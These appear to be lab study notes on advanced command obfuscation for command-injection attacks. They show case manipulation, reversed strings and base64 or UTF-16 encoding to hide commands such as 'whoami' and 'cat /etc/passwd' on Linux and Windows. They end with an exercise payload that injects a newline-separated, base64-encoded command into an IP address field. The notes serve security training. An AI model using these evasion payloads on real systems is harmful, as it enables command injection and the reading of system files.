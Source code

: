 # Advanced Command Obfuscation

## Case Manipulation
Windows is <b>case insensitive</b>
```
PS C:\htb> WhOaMi

21y4d
```

Linux is <b>case sensitive</b>
```
21y4d@htb[/htb]$ $(tr "[A-Z]" "[a-z]"<<<"WhOaMi")

21y4d
```
Specifically for bash:
```
$(a="WhOaMi";printf %s "${a,,}")
```

## Reversed Commands
#### Linux
```
farelmusyaffa@htb[/htb]$ echo 'whoami' | rev
imaohw
```
```
21y4d@htb[/htb]$ $(rev<<<'imaohw')

21y4d
```
#### Windows
```
PS C:\htb> "whoami"[-1..-20] -join ''

imaohw
```
```
PS C:\htb> iex "$('imaohw'[-1..-20] -join '')"

21y4d
```

## Encoded Commands

#### Linux
Instead of copying an existing command, create our own unique obfuscation command by using `base64` (b64 encoding) or `xxd` (hex encoding).
```
farelmusyaffa@htb[/htb]$ echo -n 'cat /etc/passwd | grep 33' | base64

Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==
```
```
farelmusyaffa@htb[/htb]$ bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```
#### Windows
```
PS C:\htb> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))

dwBoAG8AYQBtAGkA
```
```
PS C:\htb> iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"

21y4d
```
Linux equivalent:
```
farelmusyaffa@htb[/htb]$ echo -n whoami | iconv -f utf-8 -t utf-16le | base64

dwBoAG8AYQBtAGkA
```
<br>

Exercise payload: <br>
`127.0.0.1%0abash<<<$(base64%09-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)`
